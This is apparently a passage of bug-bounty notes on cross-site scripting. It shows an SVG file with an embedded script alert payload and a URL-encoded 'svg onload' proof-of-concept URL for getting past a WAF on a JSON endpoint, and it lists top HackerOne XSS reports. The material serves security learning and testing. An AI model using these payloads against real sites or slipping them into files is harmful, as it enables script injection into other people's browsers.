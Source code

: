 is an example of a basic SVG file that will show a picture of a `rectang`
```
    <svg width="400" height="110">  <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> </svg><!--This means you can place an SVG file in an image tag and it will render perfectly:--><img src="rectangle.svg" alt="Rectangle" height="42" width="42"><!-- An example SVG file with an alert XSS payload can be found below:--><?xml version="1.0" standalone="no"?> <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "<http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd>"><svg version="1.1" baseProfile="full" xmlns="<http://www.w3.org/2000/svg>"> <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> <script type="text/javascript"> alert("h0tak88r_XSS"); </script></svg>
```



# some bypasses Techniques
- **XSS for `.JSON` endpoint [ bypass (`.html`)and `WAF` ]**
    
    -  `“resource Type” : “silent:nonexitsting”` Function
        
        ![https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png](https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png)
        
    -  Use `url-encoded` payload with .`htm` extension and `//` for break directory block too , So the server so the server didn’t understand my request fully
        
    - POC
    ```
    <https://www.redacted.com/etc/designs/redacted.json//%3Csvg%20onload=alert(document.domain)%3E.html>
    
    ```
- **XSS in meta tag**
    
    - [ ] [XSS bypass using META tag in realestate.postnl.nl | by Prial Islam Khan | InfoSec Write-ups (infosecwriteups.com)](https://infosecwriteups.com/xss-bypass-using-meta-tag-in-realestate-postnl-nl-32db25db7308)

# Top XSS reports from HackerOne:

1. [Bypass for #488147 enables stored XSS on](https://hackerone.com/reports/510152) [https://paypal.com/signin](https://paypal.com/signin) again to PayPal - 2530 upvotes, $20000
2. [Stored XSS on](https://hackerone.com/reports/488147) [https://paypal.com/signin](https://paypal.com/signin) via cache poisoning to PayPal - 646 upvotes, $18900
3. [Reflected XSS on](https://hackerone.com/reports/846338) [https://www.glassdoor.com/employers/sem-dual-lp/](https://www.glassdoor.com/employers/sem-dual-lp/) to Glassdoor - 632 upvotes, $1000
4. [Stored XSS in Wiki pages](https://hackerone.com/reports/526325) to GitLab - 595 upvotes, $4500
5. [Stored XSS on imgur profile](https://hackerone.com/reports/484434) to Imgur - 591 upvotes, $650
6. [Reflected XSS in OAUTH2 login flow](https://hackerone.com/reports/697099) to LINE - 471 upvotes, $1989
7. [XSS in steam react chat client](https://hackerone.com/reports/409850) to Valve - 453 upvotes, $7500
8. [Cross-Site-Scripting on www.tiktok.com and m.tiktok.com leading to Data Exfiltration](https://hackerone.com/reports/968082) to TikTok - 449 upvotes, $3860
9. [XSS vulnerable parameter in a location hash](https://hackerone.com/reports/146336) to Slack - 440 upvotes, $1100
10. [One-click account hijack for anyone using Apple sign-in with Reddit, due to response-type switch + leaking href to XSS on www.redditmedia.com](https://hackerone.com/reports/1567186) to Reddit - 419 upvotes, $10000
11. [Panorama UI XSS leads to Remote Code Execution via Kick/Disconnect Message](https://hackerone.com/reports/631956) to Valve - 407 upvotes, $9000
12. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 407 upvotes, $1000
13. [Stored XSS Vulnerability](https://hackerone.com/reports/643908) to WordPress - 394 upvotes, $500
14. [Reflected XSS and sensitive data exposure, including payment details, on lioncityrentals.com.sg](https://hackerone.com/reports/340431) to Uber - 369 upvotes, $4000